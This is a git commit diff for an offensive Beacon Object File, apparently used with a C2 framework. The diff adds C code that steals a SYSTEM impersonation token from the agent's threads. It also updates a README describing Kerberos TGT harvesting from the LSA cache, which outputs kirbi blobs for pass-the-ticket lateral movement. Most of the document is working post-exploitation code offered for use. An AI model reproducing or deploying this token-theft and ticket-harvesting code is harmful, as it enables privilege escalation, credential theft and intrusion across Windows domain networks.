

Updated TGT monitor to work with impersonation tokens.

diff --git a/src/main.c b/src/main.c
@@ -1,6 +1,84 @@
 #include <windows.h>
+#include <tlhelp32.h>
 #include "beacon.h"
 #include "common.h"
+
+// Check current token for SYSTEM privileges
+BOOL IsSystem(){
+    BOOL isSystem = FALSE;
+
+    // Get System SID
+    SID_IDENTIFIER_AUTHORITY ntAuth = SECURITY_NT_AUTHORITY;
+    PSID systemSid = NULL;
+    ADVAPI32$AllocateAndInitializeSid(&ntAuth, 1, SECURITY_LOCAL_SYSTEM_RID,0,0,0,0,0,0,0, &systemSid);
+    
+    // Check current process token
+    HANDLE hToken = NULL;
+    if (!ADVAPI32$OpenProcessToken((HANDLE)-1, TOKEN_QUERY, &hToken))
+        return FALSE;
+
+    DWORD retLen = 0;
+    ADVAPI32$GetTokenInformation(hToken, TokenUser, NULL, 0, &retLen);
+    TOKEN_USER* tokenUser = (TOKEN_USER*)MemAlloc(retLen);
+    if (!tokenUser) { 
+        KERNEL32$CloseHandle(hToken); 
+        return FALSE; 
+    }
+
+    if (ADVAPI32$GetTokenInformation(hToken, TokenUser, tokenUser, retLen, &retLen)) {
+        isSystem = ADVAPI32$EqualSid(tokenUser->User.Sid, systemSid);
+        ADVAPI32$FreeSid(systemSid);
+    }
+
+    MemFree(tokenUser);
+    KERNEL32$CloseHandle(hToken);
+    return isSystem;
+}
+
+// Check agent's impersonation token for SYSTEM privileges
+HANDLE StealSystemToken() {
+    SID_IDENTIFIER_AUTHORITY ntAuth = SECURITY_NT_AUTHORITY;
+    PSID systemSid = NULL;
+    ADVAPI32$AllocateAndInitializeSid(&ntAuth, 1, SECURITY_LOCAL_SYSTEM_RID,0,0,0,0,0,0,0, &systemSid);
+    
+    HANDLE hSnap = KERNEL32$CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
+    DWORD pid = KERNEL32$GetCurrentProcessId();
+    HANDLE hDuplicateToken  = NULL;
+
+    THREADENTRY32 thEntry = { sizeof(thEntry) };
+    if (KERNEL32$Thread32First(hSnap, &thEntry)) {
+        do {
+            // Ignore other processes
+            if (thEntry.th32OwnerProcessID != pid) 
+                continue;
+
+            HANDLE hThread = KERNEL32$OpenThread(THREAD_QUERY_INFORMATION, FALSE, thEntry.th32ThreadID);
+            if (!hThread) 
+                continue;
+
+            HANDLE hToken = NULL;
+            if (ADVAPI32$OpenThreadToken(hThread, TOKEN_DUPLICATE | TOKEN_QUERY, FALSE, &hToken)) {
+                
+                DWORD retLen = 0;
+                ADVAPI32$GetTokenInformation(hToken, TokenUser, NULL, 0, &retLen);
+                TOKEN_USER* tokenUser = (TOKEN_USER*)MemAlloc(retLen);
+                if (tokenUser && ADVAPI32$GetTokenInformation(hToken, TokenUser, tokenUser, retLen, &retLen)) {
+                    // Duplicate SYSTEM token if found
+                    if (ADVAPI32$EqualSid(tokenUser->User.Sid, systemSid)) {
+                        ADVAPI32$DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenImpersonation, &hDuplicateToken);
+                    }
+                    MemFree(tokenUser);
+                }
+                KERNEL32$CloseHandle(hToken);
+            }
+            KERNEL32$CloseHandle(hThread);
+        } while (!hDuplicateToken && KERNEL32$Thread32Next(hSnap, &thEntry));
+    }
+
+    KERNEL32$CloseHandle(hSnap);
+    ADVAPI32$FreeSid(systemSid);
+    return hDuplicateToken; 
+}
 
 NTSTATUS GetLsaHandle(HANDLE* hLsa) {
     NTSTATUS status = STATUS_SUCCESS;
@@ -294,9 +372,16 @@ VOID go(char* args, int argc) {
     int interval = BeaconDataInt(&parser);
     char* targetUser = BeaconDataExtract(&parser, NULL);
         
-    if (!BeaconIsAdmin()) {
-        BeaconPrintf(CALLBACK_OUTPUT, "[-] Must be run as NT AUTHORITY\\SYSTEM.\n");
-        return;
+    // Check for SYSTEM privileges by checking primary token first
+    if (!IsSystem()){
+        // Fallback to stealing the agent's impersonation token
+        HANDLE hToken = StealSystemToken(); 
+        if (!hToken) {
+            BeaconPrintf(CALLBACK_OUTPUT, "[-] Must be run as NT AUTHORITY\\SYSTEM.\n");
+            return;
+        }
+        ADVAPI32$SetThreadToken(NULL, hToken);
+        KERNEL32$CloseHandle(hToken);
     }
     
     HANDLE hLsa = 0;
@@ -343,6 +428,8 @@ VOID go(char* args, int argc) {
     if (curr.tickets)
         MemFree(curr.tickets);
     SECUR32$LsaDeregisterLogonProcess(hLsa);
+
+    ADVAPI32$RevertToSelf(); 
 
     BeaconPrintf(CALLBACK_OUTPUT, "\n[+] BOF execution completed.\n");
 }

diff --git a/include/common.h b/include/common.h
@@ -52,8 +52,25 @@ DECLSPEC_IMPORT BOOL     WINAPI KERNEL32$HeapFree(HANDLE, DWORD, LPVOID);
 DECLSPEC_IMPORT DWORD    WINAPI KERNEL32$WaitForSingleObjectEx(HANDLE, DWORD, BOOLEAN);
 DECLSPEC_IMPORT VOID     WINAPI KERNEL32$GetLocalTime(LPSYSTEMTIME);
 DECLSPEC_IMPORT int      WINAPI KERNEL32$WideCharToMultiByte(UINT, DWORD, LPCWCH, int, LPSTR, int, LPCCH, LPBOOL);
+DECLSPEC_IMPORT HANDLE   WINAPI KERNEL32$CreateToolhelp32Snapshot(DWORD, DWORD);
+DECLSPEC_IMPORT BOOL     WINAPI KERNEL32$Thread32First(HANDLE, LPTHREADENTRY32);
+DECLSPEC_IMPORT BOOL     WINAPI KERNEL32$Thread32Next(HANDLE, LPTHREADENTRY32);
+DECLSPEC_IMPORT HANDLE   WINAPI KERNEL32$OpenThread(DWORD, BOOL, DWORD);
+DECLSPEC_IMPORT DWORD    WINAPI KERNEL32$GetCurrentProcessId(VOID);
+DECLSPEC_IMPORT BOOL     WINAPI KERNEL32$CloseHandle(HANDLE);
 
-// Imports: NTDLL
+// ADVAPI32
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$OpenProcessToken(HANDLE, DWORD, PHANDLE);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$OpenThreadToken(HANDLE, DWORD, BOOL, PHANDLE);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$GetTokenInformation(HANDLE, TOKEN_INFORMATION_CLASS, LPVOID, DWORD, PDWORD);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$DuplicateTokenEx(HANDLE, DWORD, LPSECURITY_ATTRIBUTES, SECURITY_IMPERSONATION_LEVEL, TOKEN_TYPE, PHANDLE);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$SetThreadToken(PHANDLE, HANDLE);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$RevertToSelf(VOID);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$EqualSid(PSID, PSID);
+DECLSPEC_IMPORT BOOL     WINAPI ADVAPI32$AllocateAndInitializeSid(PSID_IDENTIFIER_AUTHORITY, BYTE, DWORD, DWORD, DWORD, DWORD, DWORD, DWORD, DWORD, DWORD, PSID*);
+DECLSPEC_IMPORT PVOID    WINAPI ADVAPI32$FreeSid(PSID);
+
+// NTDLL
 DECLSPEC_IMPORT VOID     NTAPI  NTDLL$RtlTimeToTimeFields(PLARGE_INTEGER, PTIME_FIELDS);
 DECLSPEC_IMPORT VOID     NTAPI  NTDLL$RtlSystemTimeToLocalTime(PLARGE_INTEGER, PLARGE_INTEGER);
 

diff --git a/README.md b/README.md
@@ -1,4 +1,4 @@
-# Kerberos TGT Monitor BOF
+# Kerberos TGT Monitor
 
 Async Beacon Object File (BOF) that monitors for Kerberos logon events and wakes up the agent whenever a new Kerberos TGT is captured. Similar to Rubeus' `monitor` command, this BOF is running indefinitely and periodically checks the LSA ticket cache on the system. When a new TGT is detected, it prints the ticket metadata and outputs a base64-encoded kirbi blob that can be used for lateral movement via pass-the-ticket attacks.
 
@@ -11,11 +11,15 @@ In Conquest, the `tgt-monitor` BOF is executed in the background via a self-cont
 
 ![Workflow](./assets/workflow.png)
 
+1. The TGT Monitor BOF requires `NT AUTHORITY\SYSTEM` privileges.
+   1. First, it checks the current process token for SYSTEM access.
+   2. If the process token is not SYSTEM, the BOF scans all threads in the current process for an impersonation token with SYSTEM privileges and duplicates it. This allows use from a low-integrity agent process that has stolen a SYSTEM token (e.g. via `SeImpersonatePrivilege`). The BOF terminates if this also does not yield SYSTEM level access.
+2. LSA and Kerberos authentication package handles are retrieved.
+3. All active logon sessions are enumerated. For each session, the Kerberos ticket cache is queried and filtered for TGTs. If a `--user` argument was provided, only sessions matching that username are considered.
+4. The current ticket cache is diffed against the previous snapshot. New TGTs trigger metadata printing and base64-encoded kirbi output, followed by a `BeaconWakeup()` call to force the agent to check in and return the output.
+5. Steps 3 and 4 are repeated in a loop with until the BOF is cancelled via the stop event. The user defined interval sets the delay between polls.
+
 ## Usage
-
-
->[!Warning]
-> This BOF requires to be run from a `NT AUTHORITY\SYSTEM` context. 
 
 The following arguments need to be passed to the object file: 
 
